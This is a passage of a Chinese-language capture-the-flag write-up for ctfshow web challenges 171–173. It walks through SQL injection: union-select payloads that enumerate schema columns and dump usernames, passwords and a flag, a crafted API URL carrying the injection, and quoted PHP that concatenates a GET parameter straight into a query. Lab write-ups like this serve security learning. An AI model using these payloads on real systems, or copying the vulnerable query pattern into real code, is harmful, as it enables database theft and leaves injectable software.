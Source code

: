 ```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user' and table_schema=database()--+
```

爆出字段内容 

```
1adminadmin~,2user1111~,3user2222~,4userAUTOpasswordAUTO~,5userAUTOpasswordAUTO~,6userAUTOpasswordAUTO~,7userAUTOpasswordAUTO~,8userAUTOpasswordAUTO~,9userAUTOpasswordAUTO~,10userAUTOpasswordAUTO~,11userAUTOpasswordAUTO~,12userAUTOpasswordAUTO~,13userAUTOpasswordAUTO~,14userAUTOpasswordAUTO~,15userAUTOpasswordAUTO~,16userAUTOpasswordAUTO~,17userAUTOpasswordAUTO~,18userAUTOpasswordAUTO~,19userAUTOpasswordAUTO~,20userAUTOpasswordAUTO~,21userAUTOpasswordAUTO~,22userAUTOpasswordAUTO~,23userAUTOpasswordAUTO~,24userAUTOpasswordAUTO~,26flagflag{90be1d62-6fab-41d6-aa43-c7d5a1c90ab7}~
```

```
-1' union select 1,2,group_concat(id,username,password,0x7e) from ctfshow_user--+
```

还可以直接抓包找到 api,直接爆出

```
http://96977979-97ee-410a-8c0f-bd0b2883bd95.chall.ctf.show/api/?id=1'or1--+&page=1&limit=10
```

## web172

流程就不来了，

直接

```
-1' union select 1,group_concat(username,password) from ctfshow_user2--+
```

## web173~hex编码

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,password from ctfshow_user3 where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //检查结果是否有flag
>     if(!preg_match('/flag/i', json_encode($ret))){
>       $ret['msg']='查询成功';
>     }
>       
> ```
